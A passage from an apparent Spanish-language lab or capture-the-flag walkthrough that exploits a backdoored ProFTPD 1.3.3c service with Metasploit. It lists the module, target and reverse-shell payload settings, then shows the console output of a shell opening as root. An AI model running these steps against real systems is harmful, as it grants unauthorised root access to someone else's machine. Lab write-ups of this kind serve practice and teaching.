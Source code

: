 ### Metasploit

Si vamos a `metasploit` y vemos si tiene alguna vulnerabilidad el `ftp` veremos que si la tiene, por lo que haremos lo siguiente...

```shell
msfconsole -q
```

Dentro del entorno de `metasploit` haremos lo siguiente...

```shell
use exploit/unix/ftp/proftpd_133c_backdoor
```

```shell
set RHOSTS <VICTIM_IP>
```

```shell
set payload payload/cmd/unix/reverse
```

```shell
set LHOST <YOUR_IP>
```

```shell
run
```

Info:

```
[*] Started reverse TCP double handler on 192.168.5.162:4444 
[*] 192.168.5.173:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 0PGACgf43119N3Fp;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "0PGACgf43119N3Fp\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.5.162:4444 -> 192.168.5.173:47528) at 2024-06-07 10:02:25 -0400

whoami
root
```

Con esto abremos conseguido acceso a la maquina y ya no solo eso, si no que seriamos `root` automaticamente...

## Segunda forma de resolucion
